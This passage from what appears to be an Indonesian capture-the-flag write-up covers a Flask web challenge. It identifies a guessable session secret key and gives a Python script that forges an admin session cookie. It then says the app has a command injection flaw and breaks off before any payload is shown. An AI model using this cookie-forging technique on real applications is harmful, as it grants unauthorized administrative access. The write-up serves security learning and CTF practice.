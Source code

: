 - Awal saya analisis file app.py, saya menyadari bahwa secret_key yang digunakan adalah berupa string biasa / tidak random (_weak secret key_). Dari situ, saya langsung craft python script untuk men-generate sebuah JWT token agar bisa login sebagai admin dengan memanfaatkan **role=”admin”**. Berikut adalah kodenya.

<kbd>gen_session_cookie.py</kbd>
```python=
# GENERATE ADMIN SESSION COOKIE USING WEAK SECRET KEY!
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

# Fungsi untuk membuat sesi palsu
def create_session(secret_key, data):
    session_interface = SecureCookieSessionInterface()
    serializer = URLSafeTimedSerializer(
        secret_key,
        salt='cookie-session',
        signer_kwargs={'key_derivation': 'hmac', 'digest_method': 'sha1'}
    )
    return serializer.dumps(data)

# URL target
url = "http://146.190.104.208:7012"

# Buat sesi palsu
secret_key = 'os.urandom(8)'
session_data = {'role': 'admin'}
fake_session = create_session(secret_key, session_data)
print(fake_session)
```

![Oshiku-01](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2024/_assets/wreckit5.0_web1-01.png)

- Setelah berhasil login sebagai admin, saya coba baca lagi source code flask-nya. Awalnya, saya berpikir jika di fungsi `query_database` adalah kerentanan _SQL Injection_, tapi ternyata saya salah. Itu merupakan kerentanan _**Command Injection**_. Langsung saja saya craft payloadnya dan coba kirim request tersebut via cURL menggunakan cookie admin yang sudah di-generate sebelumnya.
- Berikut adalah POC untuk get flag-nya:
